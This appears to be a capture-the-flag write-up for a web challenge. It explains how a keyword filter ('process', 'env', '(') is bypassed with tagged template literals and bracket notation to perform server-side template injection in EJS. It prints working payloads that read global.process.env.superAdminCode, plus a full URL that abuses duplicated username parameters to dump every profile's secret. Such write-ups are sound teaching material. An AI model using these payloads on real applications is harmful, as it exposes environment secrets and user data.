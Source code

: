 # Challenge

Get `robertf` secret key and validate it with the /checkKeyValidity endpoint

# Solution

Essentially, they aren't filtering out the `global` keyword. 

These are a few of the strings that are filtered:

 - `process`
 - `env`
 - `(`

They are using `ejs` to render a user controlled template (which is provided via the `profileMessage` query param). 

Since they are filtering `(`, you have to use tagged template literals (essentially, calling a function using backticks in place of parentheses) to call ` .toLowerCase`` ` on `PROCESS` and `ENV`..

Since we can also use bracket notation (vs dot notation) to access properties/fields of an object, that helps make calling tagged template literals easier..

Therefore, the following:

```js
global["PROCESS".toLowerCase``]["ENV".toLowerCase``]["superAdminCode"]
```

... will become:

```js
global["process"]["env"]["superAdminCode"]
// the dot notation equivalent is:
// global.process.env.superAdminCode
```

...which, is valid and will not be filtered. Rather, executed.

After we have the `superAdminCode` we need to send a request with multiple usernames in order to hit a specific condition. From there it returns all profiles with secrets, which we can then send to the second endpoint.

The trick is you have to have to provide a valid username to get the results, meaning you have to send a scriplet tag to either override the `name` variable or just use a new variable..

```js
url.com/profileName?username=robertf&username=robertf&key=bar&profileMessage=<% const g = global["PROCESS".toLowerCase``]["ENV".toLowerCase``]["superAdminCode"]; %><%- name %><%- ` ${g}` %>
